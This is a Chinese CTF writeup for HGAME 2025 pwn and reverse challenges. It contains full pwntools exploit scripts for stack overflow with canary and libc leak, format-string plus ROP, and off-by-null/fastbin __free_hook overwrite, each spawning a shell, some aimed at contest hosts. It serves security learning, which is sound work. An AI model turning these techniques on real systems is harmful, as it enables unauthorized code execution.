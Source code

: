 # hgame 2025 pwn writeup(部分)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/IMG_718720250205-203749.jpg)

os：太久没做了老犯蠢

## w1

#### ***counting petals\***

漏洞在于向v7中读取数据的过程中存在溢出可以覆盖v8，从而修改v8为某个大于16的值，最后泄露地址，然后在第二次循环时故技重施直接溢出弹shell

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-5-1024x671.png)

```
from pwn import *
#io = process('./vuln')
io = remote('119.45.167.173',31519)
libc = ELF('libc.so.6')
elf = ELF('./vuln')
context(os='linux',arch='amd64',log_level='debug')
log.info("first times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'99')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'429496729699')
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.recvuntil(b' + 429496729699 + ')
canary = int(io.recvuntil(b' ',drop=True),10) 
io.recvuntil(b'+ 1 + ')
libc_base = int(io.recvuntil(b' ',drop=True),10) -0x7fcf70b1dd68 + 0x7fcf70af4000 -0x28
log.info("libc_base : "+str(hex(libc_base)))

sys_addr = libc.symbols['system']+libc_base
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_rdi_ret = 0x2a3e5 +  libc_base
ret = 0x29139 + libc_base 
log.info("second times")
io.sendlineafter(b'time?',b'16')
io.recvuntil(b'Tell me the number of petals in each flower.\n')
for i in range(16):
    io.sendlineafter(b' : ',b'21')
for i in range(15):
    io.sendlineafter(b' : ',b'16')

io.sendlineafter(b' : ',b'68719476758')
io.sendlineafter(b' : ',str(canary).encode())
io.sendlineafter(b' : ',b'0')
io.sendlineafter(b' : ',str(pop_rdi_ret).encode())
io.sendlineafter(b' : ',str(binsh).encode())
io.sendlineafter(b' : ',str(ret).encode())
io.sendlineafter(b' : ',str(sys_addr).encode())
io.sendlineafter(b'Reply 1 indicates the former and 2 indicates the latter:',b'1')
io.interactive()
```

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-2-1024x572.png)

#### ***ezstack\***

虚拟机配docker一直起不来，大概说下思路，感觉应该是先栈迁puts(puts@got)然后再迁一次ORW

#### ***format\***

漏洞在于vuln函数整数解析错误可以溢出，溢出可以覆盖format[4]、v5、v6、i，然后直接改返回地址到循环内最后一次printf的地址，这样就可以利用我们覆盖的数据泄露libc地址，最后再通过vuln函数溢出

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-6.png)

```
from pwn import *
#io = process('./vuln')
io = remote('node2.hgame.vidar.club',30453)
elf = ELF('./vuln')
libc = ELF('libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
log.info("use FMT to leak some addr")
io.sendlineafter(b' n = ',b'1')
sleep(0.1)
io.sendlineafter(b'type something:',b'%p')
sleep(0.1)
io.recvuntil(b'you type: ')
rbp_addr = int(io.recvuntil(b'y',drop=True).decode(),16)+0x7ffe63ae45d0-0x7ffe63ae4410 + 0x7ffcef294e90 -0x7ffcef292f20
log.info("leak_rbp_addr : "+str(hex(rbp_addr)))
log.info("Okay! Let's overflow!!!")
io.sendlineafter(b' n = ',b'-1')
io.send(b'a'*5+p64(rbp_addr)+p64(0x4012cf)+b'%3$p'+p32(0xffffffff)+p64(0))
io.recvuntil(b'something:')
libc_addr = int(io.recvuntil(p32(0xffffffff),drop=True).decode(),16)-0x7f1865be66dd+0x7f1865ae0000+0x3000+0x7f1947000000-0x7f1947011105
log.info("libc_addr : "+str(hex(libc_addr)))
log.info("Okay! Let's overflow the second times!!!")
sys = libc_addr + libc.symbols['system']
binsh = libc_addr + next(libc.search(b'/bin/sh'))
pop_rdi_ret = 0x2a3e5 + libc_addr
ret = 0x29139 + libc_addr
#gdb.attach(io)
log.info("rdi_addr : "+str(hex(pop_rdi_ret)))
log.info("binsh_addr : "+str(hex(binsh)))
log.info("sys_addr : "+str(hex(sys)))
pl = b'a'*4
pl += p64(rbp_addr)
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(ret)
pl += p64(sys)
io.send(pl)
io.interactive()
```

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-4-1024x633.png)

#### ***Compress dot new\***

有时候不得不感慨deepseek是真的强，直接就把揭秘脚本嗦出来了

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-3.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-7.png)

#### ***Turtle\***

需要先手动脱个壳，然后丢给deepseek

os:deepseek…, 这就是神吗…

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-8.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-10.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-12-1024x77.png)

***Level 24 Pacman\***

先禁止JS执行，F12看到后台两个JS文件，穿过去看到两串疑似flag的密文，base64+Fence解密

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-16-1024x550.png)

# w2

#### **Signin2Heap\**

off-by-null + fastbin attack

```
from pwn import *
io = process('./vuln')
context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.27.so')
a = str(chr(0))
b = str(chr(1))
c = str(chr(2))
d = str(chr(3))
def add(idx,size,con):
    io.sendafter(b'Your choice:',(b+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
    io.sendlineafter(b'Size: ',str(size).encode())
    io.sendafter(b'Content: ',con)
 
def free(idx):
    io.sendafter(b'Your choice:',(c+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())

def show(idx):
    io.sendafter(b'Your choice:',(d+a).encode())
    io.sendlineafter(b'Index: ',str(idx).encode())
log.info("leak_addr && off_by_one")
for i in range(7):
    add(i,0xf8,b"aaaa")
add(7,0xf8,b"7")#7
add(8,0x68,b"8")#8
add(9,0xf8,b"9")#9
add(10,0x68,b'10')

for i in range(7):
    free(i)
free(8)
free(7)
add(0,0x68,b"a"*0x60+p64(0x70+0x100))
free(9)
add(7,0x78,b'aaaa')
add(8,0x78,b'aaaa')
show(0) #key
libc_addr = u64(io.recvuntil(b'\x0a',drop=True).ljust(8,b'\x00')) + 0x7f2bf4a00000 - 0x7f2bf4debca0
log.info("libc addr: "+str(hex(libc_addr)))
free_hook = libc_addr + libc.symbols['__free_hook']
sys_addr = libc_addr + libc.symbols['system']
log.info("free_hook addr: "+str(hex(free_hook)))
log.info("sys_addr addr: "+str(hex(sys_addr)))
add(15,0x68,b'b')
free(7)
free(8)
log.info("fastbins attack")
for i in range(1,8):
    add(i,0x68,b'1')
for i in range(1,8):
    free(i)
free(15)
free(10)
free(0)
for i in range(1,8):
    add(i,0x68,b'a')
add(14,0x68,p64(free_hook))
add(13,0x68,b'/bin/sh\x00')
add(12,0x68,b'/bin/sh\x00')

add(11,0x68,p64(sys_addr))
free(13)
gdb.attach(io)
io.interactive()
```

![img](http://www.leidongzheng.com/wp-content/uploads/2025/02/图片-21-1024x657.png)

***Where is the vulnerability\***

house of apple2 + orw